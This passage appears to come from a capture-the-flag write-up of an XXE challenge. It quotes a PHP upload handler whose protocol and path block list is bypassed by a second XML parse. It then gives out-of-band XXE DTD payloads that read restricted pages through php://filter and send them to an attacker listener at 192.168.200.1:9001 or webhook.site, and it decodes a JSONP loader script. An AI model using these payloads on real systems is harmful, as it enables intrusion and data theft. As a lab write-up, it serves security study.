Requires two requests to receive the data, Because the `upload.php` as follows:

```php
$dom = new DOMDocument();
$res=$dom->loadXML($decode,LIBXML_DTDLOAD);
if(!$res)
    die("Not Image!");
$decode1=$dom->saveXML();
//防止本地文件读取
if(preg_match("/file:|data:|zlib:|php:\/\/stdin|php:\/\/input|php:\/\/fd|php:\/\/memory|php:\/\/temp|expect:|ogg:|rar:|glob:|phar:|ftp:|ssh2:|bzip2:|zip:|ftps:/i",$decode1,$matches))
    die("unsupport protocol: ".$matches[0]);
if(preg_match("/\/var|\/etc|\.\.|\/proc/i",$decode1,$matches)){
    die("Illegal URI: ".$matches[0]);
}
$res=$dom->loadXML($decode,LIBXML_NOENT);
if(!$res)
    die("Not Image!");
$decode=$dom->saveXML();
```

or you can use the webhook.site to receive data :>

We can then use the xxe to read the previous 403 pages:

```dtd
<!--xxe.dtd-->
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=https://flaaaaaaaag.cubestone.com?secret=demo">
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://192.168.200.1:9001/?%file;'>">
```

content:

```bash
$ echo 'PHNjcmlwdCA+CmRvY3VtZW50LmRvbWFpbj0iY3ViZXN0b25lLmNvbSI7CmZ1bmN0aW9uIHBhZ2Vsb2FkKGRhdGEpewogICAgZG9jdW1lbnQuYm9keS5pbm5lclRleHQ9ZGF0YTsKfQpmZXRjaChgbG9hZGVyLnBocD9jYWxsYmFjaz1wYWdlbG9hZCZzZWNyZXQ9ZGVtb2ApLnRoZW4oKHJlcyk9PntyZXR1cm4gcmVzLnRleHQoKTt9KS50aGVuKChkYXRhKT0+e2V2YWwoZGF0YSk7fSk8L3NjcmlwdD4K' | base64 -d
<script >
document.domain="cubestone.com";
function pageload(data){
    document.body.innerText=data;
}
fetch(`loader.php?callback=pageload&secret=demo`).then((res)=>{return res.text();}).then((data)=>{eval(data);})</script>
```

here is a jsonp, read it again:

```dtd
<!--xxe.dtd-->
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=https://flaaaaaaaag.cubestone.com/loader.php?callback=pageload&secret=demo">
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://192.168.200.1:9001/?%file;'>">
```
